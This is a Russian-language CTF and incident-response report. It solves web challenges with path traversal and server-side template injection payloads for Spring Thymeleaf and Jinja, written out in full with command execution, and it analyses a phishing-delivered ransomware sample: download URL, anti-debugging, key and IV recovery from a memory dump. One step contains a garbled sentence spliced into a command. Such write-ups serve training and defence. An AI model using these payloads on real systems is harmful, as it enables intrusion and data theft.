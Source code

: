 # Отчет

## Первый этап (CTF)

### Web 1
На сайте можно сделать только одно -- перейти по ссылке в 20 дне.
Тут есть подсказка, которая говорит, что влаг находится в `etc/secret`.
В URL есть параметр `file_type=`, что очень напоминает SSTI.
Добавляем `../` перед путем `etc/secret` до тех пор, пока не найдем файл.


### Web 2
Открываем файл legacy.jar с помощью jd-gui. В папке BOOT-INF/classes в пакете com.server видим файл HelloController, который содержит эндпоинты сервера. Нам нужен /doc/{document}. Возможно, здесь есть что-то вроде SSTI для Spring ThymeleafView. Гуглим и находим полезную нагрузку. В коде сервера можно заметить, что флаг хранится в файле `flag`. Переходим по адресу `http://192.168.12.13:8090/doc/__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("cat flag").getInputStream()).next()}__::..x` и получаем флаг!


### Web 3
В коде сервера app.py видим, что существует адрес `/flag`, но если на него перейти, то мы получим ошибку `403 Forbidden`. Гуглим способы обхода этой ошибки. Правильным адресом является `http://192.168.12.11:8001//flag`. Дальше нам нужно использовать SSTI уязвимость без использования запрещенных в коде сервера символов. В фильтре сервера есть недочёт: \w совпадает с любым символом слов ([a-zA-Z0-9_]), фильтры для {{, }}, [, ] не работают. Гуглим. Правильный payload: `{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}`.
По адресу `http://192.168.12.11:8001//flag?name={{self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()}}` будет флаг.


## Второй этап

### №1
Вирус попал по не внимательности человека, человек открыл ссылку и скачал "обновление" и тем самым подхватил вирус.
Исходя из истории браузера он заходил в почту в 18.41 а файл появился на пк в 18.43.

### №2
Ответ можно найти в журнале событий (eventvwr.msc) в разделе логов powershell.
В 18.42.04 вредоносный файл был скачан с этого адреса http://95.169.192.220:8080/prikol.exe.

### №3
В папке `C:\Users\Evgeniy\AppData\Local\Microsoft\Outlook` храился архив почты `company_worker123@rambler.ru.ost`. Открыв его через специальную программу, можно получить все письма из почтового ящика владельца.  Под .pdf может хранится cmd файл.

### №4
Тут используется обнаружение отладчика, при запуске x64dbg и попытке запустить дальше код, появляется командная строка, сразу проподает, и идет в самое начало. Появляется сообщение, которое \
`IsDebuggerPresent`. Эта функция проверяет, запущена ли отладка для текущего процесса, и выполняет несколько операций, связанных с управлением памятью. Если отладка запущена, функция возвращает 1, иначе она выполняет некоторые действия с кучей и возвращает 0. Этот код, вероятно, является частью системы защиты от отладки.

### №5
Скачав файл pass.txt.ransom и выполнив команду джоном `john -wordlist="/home/kali/Downloads/rockyou.txt" "/home/kali/Desktop/pass.txt.ransom"` получил вывод:
```
Using default input encoding: UTF-8 Loaded 1 password hash (cryptoSafe [AES-256-CBC]) Will run 12 OpenMP threads Press 'q' or Ctrl-C to abort, almost any other key for status 0g 0:00:00:01 DONE (2024-03-20 17:42) 0g/s 9756Kp/s 9756Kc/s 9756KC/s 32110017..*7¡Vamos! Session completed.
```
=> шифр **AES-256-CBC**

Строки в исполняемом файле, которые доказывают алгоритм шифрования:
- this object requires an IV
- StreamTransformationFilter: invalid PKCS #7 block padding found

### №6,8
1) Вирус убивает все процессы, которые в нем заложены (Taskmgr.exe, ResourceHacker.exe и т. д.). Чтобы это обойти нужно переименовать утилиту, например, Process Explorer, в что-то другое.
2) Запускаем вирус, замораживаем его с помощью Process Explorer и делаем дамп памяти.
3) Анализруем полученный дамп с помощью утилиты `strings` и отсекаем все строки, длина которых не равна 32 символам. Команда:уязмимость “Вредоносные вложения в электронных письмах” Из хрома видно что он заходил на рамблер, и после этогго появился файл rjomba, со времени 18.40-18.43 `strings Rjomba.dmp | grep -E '^.{32}$'`.
4) Находим две подозрительные строки: amogusamogusamogusamogusamogusam и sugomasugomasugomasugomasugomasu
5) Выполняем поиск по `amogusamogusamogusamogusamogusam` и находим рядом строку `ababab`.
6) Продолжаем ее до 16 символов. Получаем IV: `abababababababab`.
Пробуем расшифровать pass.txt. Ошибки не возникает только в случае использования amogusamogusamogusamogusamogusam.

Используется ключ: `amogusamogusamogusamogusamogusam`

Содержимое pass.txt:
```
sFYZ#2z9VdUR9sm`3JRz
```


### №7
Отправляет он на телеграмм, с помощью API. Это показанно если зайти в `virus total > behavior`
